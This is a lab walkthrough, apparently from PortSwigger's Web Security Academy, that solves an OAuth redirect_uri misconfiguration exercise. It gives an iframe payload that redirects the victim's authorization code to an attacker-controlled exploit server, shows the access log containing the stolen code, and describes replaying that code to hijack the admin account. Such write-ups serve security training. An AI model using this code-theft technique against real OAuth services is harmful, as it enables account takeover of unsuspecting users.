

# OAuth account hijacking via redirect_uri

**Date:** 04, August, 2021

**Author:** Dhilip Sanjay S

---

## Task

- This lab uses an **OAuth service** to allow users to log in with their social media account. 
- A **misconfiguration by the OAuth provider** makes it possible for an attacker to *steal authorization codes* associated with other users' accounts.

- To solve the lab, steal an authorization code associated with the admin user, then use it to access their account and delete Carlos.
- The admin user will open anything you send from the exploit server and they always have an active session with the OAuth service.
- You can log in with your own social media account using the following credentials: `wiener:peter`.

---

## Solution

- Understand the OAuth flow.
- There is no validation on the `redirect_uri`.
- Create an iframe with the `redirect_uri` pointing to **exploit server** in the exploit server:

```bash
<iframe src="https://oauth-ac881f9f1e04b5c5809b00fb02020011.web-security-academy.net/auth?client_id=xop1ssyd5egkugmiuspd1&redirect_uri=https://exploit-acb41f7a1efbb5c380fe001001e600fe.web-security-academy.net/oauth-callback&response_type=code&scope=openid%20profile%20email">
```

- Open the **Access log** after delivering the exploit to victim.
- You must have received the `/outh-callback` with the authorization code:

```bash
IP_ADDRESS  2021-08-04 13:16:17 +0000 "GET /deliver-to-victim HTTP/1.1" 302 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
IP_ADDRESS  2021-08-04 13:16:17 +0000 "GET /resources/css/labsDark.css HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36"
172.31.30.181   2021-08-04 13:16:17 +0000 "GET /exploit/ HTTP/1.1" 200 "User-Agent: Chrome/786316"
172.31.30.181   2021-08-04 13:16:17 +0000 "GET /oauth-callback?code=mEN_6IDsv0wzWlgpBRrdAfbtRx39WEGwiesKQPzqRl2 HTTP/1.1" 404 "User-Agent: Chrome/786316"
```

- Copy the code.
- Intercept the `/outh-callback` request and replace the code.
- Now you'll get access to admin panel:




- Delete the `carlos` user to finish the lab!!

